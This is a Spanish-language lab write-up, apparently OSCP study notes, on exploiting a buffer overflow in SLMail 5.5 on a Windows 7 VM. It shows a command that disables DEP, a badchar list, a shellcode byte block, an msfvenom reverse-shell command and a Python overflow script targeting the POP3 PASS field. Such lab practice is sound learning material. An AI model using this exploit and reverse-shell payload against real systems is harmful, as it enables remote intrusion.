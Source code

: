 ```yaml
---
title: Buffer OverFlow a SLMail 5.5
layout: page
permalink: /Misc_Buffer_Overflow_SlMail
---
```

<h2 id="subtitulo-importante">Buffer OverFlow a SLMail 5.5.</h2>
<h1 class="titulo-principal">Descripción</h1>

En esta publicación detallo mi practica a un Buffer OverFlow usando Python3 para la ejecución remota de comandos RCE a bajo nivel, y persistencia en un sistema Windows 7 de 32 bits.

### Firewall de Windows y reglas de Entrada/Salida - Configuración Parte 1

Lo primero es configurar una maquina Windows para montar el entorno de practica, y es importante que este bien configurado para tener comunicación entre maquinas `(La maquina Windows con el binario vulnerable, y nuestra maquina de atacante).`

> *Se usara un sistema Windows 7 de 32 bits, la versión starter.*

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/W7.png" alt="bof" oncontextmenu="return false;">
</div>

---
Después de instalar la maquina Windows, es muy importante que haya comunicación entre las 2 maquinas mediante trazas **ICMP**, debido a que por defecto estas reglas vienen deshabilitadas, por tanto, para lograr esta configuración debemos ir a la configuración avanzada de firewall de Windows y habilitar las reglas de Entrada/Salida para tener la comunicación por iPv4 y por iPv6.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasEntrada.png" alt="bof" oncontextmenu="return false;">
</div>

---
> En la imagen se muestran las reglas de entrada donde hay que habilitar las cuatro reglas para poder recibir una comunicación de nuestra maquina de atacante, de esta forma habrá una comunicación, por tanto hay que repetir el proceso para las reglas de salida.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasSalida.png" alt="bof" oncontextmenu="return false;">
</div>

---
Una vez con las reglas habilitadas probamos la comunicación.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/PruebaPing.png" alt="bof" oncontextmenu="return false;">
</div>

---
Al enviar 4 paquetes y recibirlos confirma que hay comunicación entre maquinas completando el primer paso para dar inicio a la practica del BufferOverflow.

### Desactivar el DEP - Configuración Parte 2

Esta parte es importante, debemos abrir un símbolo del sistema como administrador y ejecutar el siguiente comando.

```bash
bcdedit.exe /set {current} nx AlwaysOff
```

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEP.png" alt="bof" oncontextmenu="return false;">
</div>

---
Estamos desactivando el *DEP* `(Data Execution Protection)`, pero para todo el sistema, también se puede hacer para el binario Slmail concretamente desde el apartado GUI, pero al ser una maquina virtual que su único propósito es la practica de BufferOverflow y después será eliminada. La verdad es que no supone ningun problema este comando.

> *Debemos reiniciar el sistema para que se apliquen los cambios* 

### Utilidades - Configuración Parte 3

Para las utilidades se descargaran unas aplicaciones para hacer el trabajo mas cómodo, por tanto, se descargara el binario al cual vamos a atacar *(Slmail_5.5 ya que es vulnerable a BOF)* la aplicación **Inmunity Debugger** para monitorizar todo a bajo nivel.

> Una vez instalado El binario Slmail debemos reiniciar nuestro sistema

Nos vamos a sistema y seguridad, sistema, configuración avanzada del sistema, configuración y prevención de ejecución de datos. Aquí vemos que el *DEP*` (Data Execution Protection)` este deshabilitado.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEPvalidacion.png" alt="bof" oncontextmenu="return false;">
</div>

---
El binario SLmail trabaja en el `puerto 25` y el `puerto 110` que corren esta utilidad.

Para ver la comunicación hay que crear una nueva regla, donde a nivel de protocolo **TCP** hay que especificar los `puertos 25, 110` y permitir la comunicación.

Se procede a instalar la utilidad **mona.py** para trabajar con **Inmunity Debuuger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona.png" alt="bof" oncontextmenu="return false;">
</div>

---
> A continuación la vista del script **mona.py** desde el **Inmunity Debugger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona2.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Enumeración

Mediante `nmap -sS --min-rate 5000 --open -vvv -n -Pn` obtendremos los resultados del escaneo.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/nmap.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Badchars

Son necesarios para evitar conflictos al momento de crear nuestra shellcode y que el registro ESP pueda interpretar nuestro código y proporcionarnos nuestra reverse Shell, o el comando que queramos inyectar en el sistema.

```c
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
### Shellcode
```c
"\xda\xd7\xd9\x74\x24\xf4\xbf\xe4\x1f\x0e\x1c\x5a\x31\xc9"
"\xb1\x52\x83\xc2\x04\x31\x7a\x13\x03\x9e\x0c\xec\xe9\xa2"
"\xdb\x72\x11\x5a\x1c\x13\x9b\xbf\x2d\x13\xff\xb4\x1e\xa3"
"\x8b\x98\x92\x48\xd9\x08\x20\x3c\xf6\x3f\x81\x8b\x20\x0e"
"\x12\xa7\x11\x11\x90\xba\x45\xf1\xa9\x74\x98\xf0\xee\x69"
"\x51\xa0\xa7\xe6\xc4\x54\xc3\xb3\xd4\xdf\x9f\x52\x5d\x3c"
"\x57\x54\x4c\x93\xe3\x0f\x4e\x12\x27\x24\xc7\x0c\x24\x01"
"\x91\xa7\x9e\xfd\x20\x61\xef\xfe\x8f\x4c\xdf\x0c\xd1\x89"
"\xd8\xee\xa4\xe3\x1a\x92\xbe\x30\x60\x48\x4a\xa2\xc2\x1b"
"\xec\x0e\xf2\xc8\x6b\xc5\xf8\xa5\xf8\x81\x1c\x3b\x2c\xba"
"\x19\xb0\xd3\x6c\xa8\x82\xf7\xa8\xf0\x51\x99\xe9\x5c\x37"
"\xa6\xe9\x3e\xe8\x02\x62\xd2\xfd\x3e\x29\xbb\x32\x73\xd1"
"\x3b\x5d\x04\xa2\x09\xc2\xbe\x2c\x22\x8b\x18\xab\x45\xa6"
"\xdd\x23\xb8\x49\x1e\x6a\x7f\x1d\x4e\x04\x56\x1e\x05\xd4"
"\x57\xcb\x8a\x84\xf7\xa4\x6a\x74\xb8\x14\x03\x9e\x37\x4a"
"\x33\xa1\x9d\xe3\xde\x58\x76\xcc\xb7\x62\x96\xa4\xc5\x62"
"\x97\x8f\x43\x84\xfd\xff\x05\x1f\x6a\x99\x0f\xeb\x0b\x66"
"\x9a\x96\x0c\xec\x29\x67\xc2\x05\x47\x7b\xb3\xe5\x12\x21"
"\x12\xf9\x88\x4d\xf8\x68\x57\x8d\x77\x91\xc0\xda\xd0\x67"
"\x19\x8e\xcc\xde\xb3\xac\x0c\x86\xfc\x74\xcb\x7b\x02\x75"
"\x9e\xc0\x20\x65\x66\xc8\x6c\xd1\x36\x9f\x3a\x8f\xf0\x49"
"\x8d\x79\xab\x26\x47\xed\x2a\x05\x58\x6b\x33\x40\x2e\x93"
"\x82\x3d\x77\xac\x2b\xaa\x7f\xd5\x51\x4a\x7f\x0c\xd2\x7a"
"\xca\x0c\x73\x13\x93\xc5\xc1\x7e\x24\x30\x05\x87\xa7\xb0"
"\xf6\x7c\xb7\xb1\xf3\x39\x7f\x2a\x8e\x52\xea\x4c\x3d\x52"
"\x3f"
```

### Código del Script

Para conseguir el shellcode se puede hacer uso de la herramienta **msfvenom**.

> msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=443 -a x86 --platform windows -b '\x00\x0a\x0d' -e x86/shikata_ga_nai -f c

El script esta hecho en python3.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/script.png" alt="bof" oncontextmenu="return false;">
</div>

---
```python
#!/usr/bin/python
# Juan Garcia (aka liandd)
from pwn import *
from struct import pack
import socket, sys

def exploit(ip_address, rport):
    # Escapar el shellcode con b para indicar que son bytes
    shellcode= (b"\ejemplo")

    buffer = b"A" * 2606 + pack("<L", 0x5f4a358f) + b"\x90"*16 + shellcode
    
    p1 = log.progress("Data")
    try:
        p1.status("Enviando %s bytes" % len(buffer))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.recv(1024)
        s.send(b'USER eva\r\n')
        s.recv(1024)
        s.send(b'PASS ' + buffer + b'\r\n')
        s.recv(1024)
    except Exception as e:
        print("\n[!] Ha habido un error de conexión:", e)
        sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\n[!] Uso : python " + sys.argv[0] + " <ip-address>\n")
        sys.exit(0)

    ip_address = sys.argv[1]
    rport = 110

    exploit(ip_address, rport)
```

### Conclusión

El Script es compilado y funciona correctamente.

---

Esta publicación ha sido creada como soporte en el aprendizaje de BufferOverFlow para la OSCP.

© Juan David Garcia Acevedo (aka liandd)
